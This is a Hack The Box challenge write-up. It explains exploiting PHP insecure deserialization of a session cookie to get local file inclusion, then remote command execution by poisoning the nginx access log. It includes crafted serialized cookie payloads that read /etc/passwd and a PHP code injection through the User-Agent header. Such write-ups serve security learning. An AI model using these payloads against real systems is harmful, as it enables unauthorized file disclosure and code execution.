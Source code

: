 ```yaml
---
title:  "PHP Insecure Deserialization"
date:   2023-12-30
categories: Cybersecurity Hack-The-Box
---
```

![card](/assets/images/toxic/Toxic.png)
This is a WriteUp of the HTB Challenge Toxic. The challenge is delivered with the full source code of the web application, written in PHP.

## Enumeration
The application does a few interesting things. Inside of `index.php` we can see how the PHPSESSID cookie is generated. It sets the cookie to a base64 encoded serialization of the `PageModel` object.

```
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);

```

If we look at the `PageModel` class, we see the following:

```
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

A `PageModel` object contains a file. This file is included as soon as the object ist destroyed. Since the file set at the creation of the object is `/www/index.html`, this leads to the file being displayed in the browser.

If we intercept a GET request with Burp, we can see the cookie, which was set:

![Alt text](/assets/images/toxic/image.png)

Decoding the `PHPSESSID`, we can see the serialized `PageModel` object.

```
$ echo "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9" | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

# Exploitation
Using all of this information, we can see that this website is vulnerable to Local File Inclusion (LFI) by changing the `PHPSESSID` cookie to contain a different file than `/www/index.html`. When our changed `PageModel` object gets deserialized, the `__destruct()` method on it gets called and the file gets included, which leads to it being displayed on the website.

```
$ echo -n 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
```
![Alt text](/assets/images/toxic/image1.png)

As we can see in `entrypoint.sh` the flag gets generated with five random characters at the end of the file name. This means we can't just include it directly but have to get Remote Command Execution (RCE) on the box first.

```
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

exec "$@"
```
To get RCE from LFI, we can include the access log of the webserver `/var/log/nginx/access.log` in the `PHPSESSID` and sneak some PHP code into our user agent: `User-Agent: <?php system('ls -l /');?>`. This gets executed, as soon as the file is included. Important to note is, that the result of the RCE is only visible after sending a second GET request, because the entry to the log is made after it is already included.

```
$ echo -n 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNz
LmxvZyI7fQ==

```

![Alt text](/assets/images/toxic/image2.png)

Now we see the flag file `flag_i6VvW`, which we now can look at.

![Alt text](/assets/images/toxic/image3.png)